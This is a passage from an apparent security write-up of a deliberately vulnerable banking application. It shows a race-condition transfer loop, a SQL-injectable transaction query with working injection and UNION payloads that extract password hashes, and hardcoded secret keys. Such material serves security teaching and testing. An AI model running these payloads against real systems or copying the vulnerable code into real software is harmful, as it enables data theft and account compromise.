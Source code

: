 ```python
    
    # Execute transfers concurrently
    threads = []
    for _ in range(10):
        t = Thread(target=make_transfer)
        t.start()
        threads.append(t)
```

### 2. Unsafe Transaction History Query
**Location**: `backend/routes/transaction_routes.py`
```python
@transaction_bp.route('/api/transactions', methods=['GET'])
@token_required
def get_transactions(current_user):
    user_id = request.args.get('user_id', current_user.id)
    
    # Direct string interpolation - SQL Injection
    query = f'SELECT * FROM "Transaction" WHERE sender_id = {user_id} OR receiver_id = {user_id} ORDER BY created_at DESC'
    result = db.session.execute(query)
    transactions = result.fetchall()
```

**Impact**:
- SQL injection vulnerability enables unauthorized access
- Potential exposure of all transaction records
- Risk of transaction history manipulation
- Compromise of financial data privacy

**Exploitation**:
```python
# SQL injection attack
payload = "1 OR 1=1 --"  # View all transactions
response = requests.get(f'/api/transactions?user_id={payload}')

# Union attack
payload = "1 UNION SELECT id,username,password_hash,balance FROM user--"
response = requests.get(f'/api/transactions?user_id={payload}')
```

### 3. Hardcoded Credentials
**Location**: `backend/app.py`
```python
# Configuration
app.config['SECRET_KEY'] = 'supersecret'
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///vulnerable_bank.db'

# JWT secret in auth_routes.py
JWT_SECRET = 'secret'
```

**Impact**:
- Credentials exposed in source code
- Same secrets used across all deployments
- No ability to rotate secrets securely
- Version control history exposes secrets
